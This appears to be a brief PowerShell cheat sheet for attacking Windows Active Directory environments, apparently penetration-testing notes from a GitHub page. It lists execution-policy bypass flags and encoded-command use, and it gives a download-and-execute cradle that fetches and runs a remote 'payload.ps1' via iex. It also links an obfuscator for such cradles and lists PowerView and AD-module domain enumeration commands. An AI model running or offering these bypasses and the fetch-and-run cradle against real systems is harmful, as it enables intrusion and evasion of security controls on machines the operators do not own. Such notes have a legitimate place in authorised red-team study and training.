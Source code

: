## BASICS:  

**Check Execution Policy**:  
1. Get-ExecutionPolicy  

**Bypass execution policy**:  
1. powershell -executionpolicy bypass .\script.ps1  
2. powershell -ep bypass  
3. powershell -c <cmd>  
4. powershell -enc  
  
**Import Modules**:  
1. . .\script.ps1  
2. Import-Module <path to script>  

**List Available modules**:  
1. Get-Module -ListAvailable  

** All commands in the module**:  
1. Get-Command -Module <module name>  
  
## COMMAND EXECUTION:  
**IEX**:  (**!= OPSEC**)
1. iex (New-Object Net.webClient).DownloadString('http://server/payload.ps1')  

**IEX Obfuscator**: https://github.com/danielbohannon/Invoke-CradleCrafter.git  
  
## DOMAIN ENUMERATION (POWERVIEW):  
**Get the current domain**:  
1. Get-NetDomain  
2. Get-NetDomain -Domain \<domain name\>  

**Get the current domain SID**:  
1. Get-DomainSID  
 

## DOMAIN ENUMERATION (ACTIVE DIRECTORY TOOLS):  
**Get the current domain**: 
1. Get-ADDomain  
2. Get-ADDomain -Identity \<domain name\>  
  
**Get the current domain SID**:  
1. (Get-ADDomain).DomainSID.Value  
  

